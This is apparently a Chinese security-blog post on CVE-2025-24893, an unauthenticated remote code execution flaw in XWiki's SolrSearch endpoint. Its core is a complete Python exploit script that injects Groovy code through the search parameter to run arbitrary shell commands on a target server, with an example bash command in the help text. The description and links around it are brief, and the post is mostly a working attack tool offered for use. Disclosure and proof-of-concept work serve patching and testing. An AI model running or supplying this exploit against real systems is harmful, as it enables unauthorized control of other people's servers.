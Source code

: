 #  CVE-2025-24893｜XWiki Platform远程代码执行漏洞（POC）   
alicy  信安百科   2025-05-04 10:00  
  
**0x00 前言**  
  
  
XWiki是一个开源的企业级知识管理平台，它使用Java编写，并提供了一个完整的框架用于创建、管理和分享信息。XWiki采用Wiki概念，允许团队成员通过Web界面协作编辑文档。其核心特性包括强大的版本控制、权限管理、模板和宏系统以及多语言支持。  
  
  
  
**0x01 漏洞描述**  
  
  
该漏洞存在于 XWiki 的 SolrSearchMacros 功能中，允许未经身份验证的用户通过对 SolrSearch  
 端点的请求执行任意远程代码。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-24893  
  
  
  
**0x03 影响版本**  
  
  
XWiki 15.10.11、16.4.1和16.5.0RC1之前的版本  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/iSee857/CVE-2025-24893-PoC  
```
import argparse
import requests
import sys
from urllib.parse import urljoin

VULN_PATH = "/xwiki/bin/get/Main/SolrSearch?media=rss&text="
PAYLOAD_TEMPLATE = "}}}{{async async=false}}{{groovy}}%s;println('EXPLOIT_SUCCESS'){{/groovy}}{{/async}}"

def banner():
    print("\033[36m" + """
    ****************************************************
    *                 CVE-2025-24893                   *
    *             XWiki RCE漏洞利用工具                 *
    *                 作者: iSee857                    *
    ****************************************************
    """ + "\033[0m")
def execute_exploit(target_url, command):

    try:
        full_url = urljoin(target_url.rstrip('/') + '/', VULN_PATH.lstrip('/')) 

        safe_cmd = command.replace('{', '{{').replace('}', '}}')  
        safe_cmd = safe_cmd.replace('\\', '\\\\')  
        safe_cmd = safe_cmd.replace("'", "\\'")   


        payload = PAYLOAD_TEMPLATE % safe_cmd
        params = {'media': 'rss', 'text': payload}
        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
            'Accept': '*/*'
        }

        response = requests.get(
            full_url,
            params=params,
            headers=headers,
            allow_redirects=False,
            verify=False,
            timeout=20
        )

        if response.status_code == 200 and 'EXPLOIT_SUCCESS' in response.text:
            print("[+] 漏洞利用成功！响应片段：")
            print(response.text[:300].split('EXPLOIT_SUCCESS')[0] + "...[SUCCESS]")
            return True
        else:
            print(f"[-] 利用失败，状态码：{response.status_code}")
            return False

    except Exception as e:
        print(f"[-] 错误：{str(e)}")
        return False

if __name__ == "__main__":
    banner()
    parser = argparse.ArgumentParser(description="XWiki RCE漏洞利用工具 CVE-2025-24893")
    parser.add_argument("URL", help="目标URL (例: http://127.0.0.1:8080)")
    parser.add_argument("COMMAND", help="Groovy命令 (例: 'new ProcessBuilder(\"bash\",\"-c\",\"echo pwned > /tmp/pwned.txt\").waitFor()')")
    args = parser.parse_args()


    if '\\' in args.COMMAND:
        args.COMMAND = args.COMMAND.replace('\\', '/')

    success = execute_exploit(args.URL, args.COMMAND)
    sys.exit(0 if success else 1)
```  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/iSee857/CVE-2025-24893-PoC  
  
https://jira.xwiki.org/browse/XWIKI-22149  
  
  
  
  
推荐阅读：  
  
  
[CVE-2025-30208｜Vite任意文件读取漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485894&idx=1&sn=10f8c9191b8edc1fdad2526bc52fab68&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-55591｜FortiOS和FortiProxy身份认证绕过漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485778&idx=2&sn=691f85f7d7a345f2ed5607454b84333b&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-38819｜Spring Framework路径遍历漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485772&idx=2&sn=705ff60136147bf24cbe72947f7ac5c2&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
